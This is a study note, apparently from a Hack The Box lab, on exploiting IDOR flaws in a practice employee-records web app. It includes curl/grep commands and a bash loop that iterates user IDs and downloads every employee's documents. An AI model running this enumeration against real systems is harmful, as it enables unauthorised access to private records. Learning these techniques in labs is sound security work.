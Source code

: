```yaml
---
title: c-Mass IDOR Enumeration
draft: false
tags:
  - idor
---
```

Let's start discussing various techniques of exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering, to user privilege escalation.

## Insecure Parameters

> **Employee Manager** web application that hosts employee records.

Let's say we are logged in as an employee with user id `uid=1`.

Once we click on `Documents`, we are directed to `/documents.php?uid=1`.

`Documents` page shows uploaded files from our user:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

Files above seems to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users.

This is one of the most basic type of IDOR - **Static File IDOR**

Also, if the web app doesn't have proper access control system, we will be able to view other employee's document by simply changing `uid` value to something else. 

## Mass Enumeration

We can use tools like `Burp Suite` or `ZAP` to retrieve all the files or write a small bash script to download all files.

Let'stake a view at the HTML source code:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell-session
jadu101@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Let's use `Regex` with `grep` to only get the documents links:

```shell-session
jadu101@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10.

